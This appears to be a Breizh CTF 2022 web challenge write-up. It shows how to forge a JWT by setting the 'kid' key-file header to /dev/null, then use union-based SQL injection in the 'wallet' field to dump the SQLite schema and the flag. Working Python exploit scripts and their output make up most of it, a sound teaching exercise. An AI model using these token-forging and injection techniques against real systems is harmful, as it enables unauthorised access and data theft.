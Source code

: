 +++                                                                           
title = "[Breizh CTF 2022 - web] La galette à tout prix"                  
tags = ["ctf", "ret2school", "Breizh CTF", "Tek", "web", "2022"]      
date = "2022-04-05"    
+++

We are given a JWT. It contains a field `kid` which is the name of the file containing the key to sign the JWT :  
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiciLCJ3YWxsZXQiOltdLCJraWQiOiIuL3NlY3JldC5rZXkifQ.sPF55gkdqUQqAfkeBFtQRWOZgh_4S2jaIEJz2FcUsp8

header : {"typ":"JWT","alg":"HS256"}
payload : {"username":"'","wallet":[],"kid":"./secret.key"}
```

If we edit `kid` with a file that we already know the content (such as `/dev/null`) we can sign any JWT.
```
import jwt

FILENAME = "/dev/null"
key = open(FILENAME).read(32)

jwt.encode({"username":"Monsieur Rennes Whisky","wallet":[f"2 union {sql}"],"kid":FILENAME}, key=key, algorithm="HS256")

# it provides us a valid JWT :)
```

We then discover that there is an SQL injection with `wallet`. So let's dump the database.
```py
import jwt
import requests
import json

FILENAME = "/dev/null"
key = open(FILENAME).read(32)

sql = "select sql,2 from sqlite_master"

cookies = {"user":jwt.encode({"username":"Monsieur Rennes Whisky","wallet":[f"2 union {sql}"],"kid":FILENAME}, key=key, algorithm="HS256")}
r = requests.get("https://la-galette-a-tout-prix.ctf.bzh:21000/wallet", cookies=cookies, verify=False)
for k,val in enumerate(json.loads(r.text)):
    print(k, val["name"])
```

Output :
```
0 CREATE TABLE galette(id integer primary key autoincrement, name text, description text)
1 CREATE TABLE precommande(id integer primary key autoincrement, id_galette integer, personal_message text)
2 CREATE TABLE sqlite_sequence(name,seq)
3 CREATE TABLE users(id integer primary key autoincrement, username text, password text)
```

The flag is in `precommande.presonnal_message`.
Here is the full script :
```py
import jwt
import requests
import json

FILENAME = "/dev/null"
key = open(FILENAME).read(32)

# sql = "select sql,2 from sqlite_master"
"""
0 CREATE TABLE galette(id integer primary key autoincrement, name text, description text)
1 CREATE TABLE precommande(id integer primary key autoincrement, id_galette integer, personal_message text)
2 CREATE TABLE sqlite_sequence(name,seq)
3 CREATE TABLE users(id integer primary key autoincrement, username text, password text)
"""

sql = "select personal_message,2 from precommande"

cookies = {"user":jwt.encode({"username":"Monsieur Rennes Whisky","wallet":[f"2 union {sql}"],"kid":FILENAME}, key=key, algorithm="HS256")}
r = requests.get("https://la-galette-a-tout-prix.ctf.bzh:21000/wallet", cookies=cookies, verify=False)
for k,val in enumerate(json.loads(r.text)):
    print(k, val["name"])

# BZHCTF{u_st34l_th1s_b34ut1ful_g4l3tt3_s4uc1ss3!!}
```
